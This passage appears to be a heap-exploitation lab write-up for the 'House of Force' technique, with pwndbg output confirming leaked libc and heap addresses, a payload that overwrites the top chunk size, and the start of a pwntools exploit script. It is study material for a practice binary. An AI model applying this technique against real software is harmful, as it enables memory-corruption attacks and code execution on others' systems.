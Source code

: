 ```bash
pwndbg> xinfo 0x7ffff786df10
Extended information for virtual address 0x7ffff786df10:

  Containing mapping:
    0x7ffff7800000     0x7ffff79ac000 r-xp   1ac000      0 /home/fury/Desktop/Final_Path/ExpDevG0d/HeapExp/HeapLAB/01/.glibc/glibc_2.28_no-tcache/libc-2.28.so

  Offset information:
         Mapped Area 0x7ffff786df10 = 0x7ffff7800000 + 0x6df10
         File (Base) 0x7ffff786df10 = 0x7ffff7800000 + 0x6df10
      File (Segment) 0x7ffff786df10 = 0x7ffff7800000 + 0x6df10
         File (Disk) 0x7ffff786df10 = .../HeapLAB/01/.glibc/glibc_2.28_no-tcache/libc-2.28.so + 0x6df10

 Containing ELF sections:
               .text 0x7ffff786df10 = 0x7ffff7821630 + 0x4c8e0
```

This confirms that the leaked `puts()` address lies inside the program’s mapped `libc` image.

```bash
pwndbg> xinfo 0x603000
Extended information for virtual address 0x603000:

  Containing mapping:
          0x603000           0x624000 rw-p    21000      0 [heap]

  Offset information:
         Mapped Area 0x603000 = 0x603000 + 0x0

```

This shows that `0x603000` is inside the process heap.

Let’s use the following pwntools template to launch the binary, grab the leaked `puts` and heap addresses, compute the libc base, and drive simple menu actions. We will be sending `'A'*24+p64(0xdeadbeef)` which will overwrite the top_chunk size.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './house_of_force')
libc = exe.libc

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main 
continue
'''.format(**locals())

# Function to get leaked addresses
def leak_addresses():
    io.recvuntil(b'puts() @ ')
    puts_address = int(io.recvline().strip(), 16)

    io.recvuntil(b'heap @ ')
    heap_address = int(io.recvline().strip(), 16)
    
```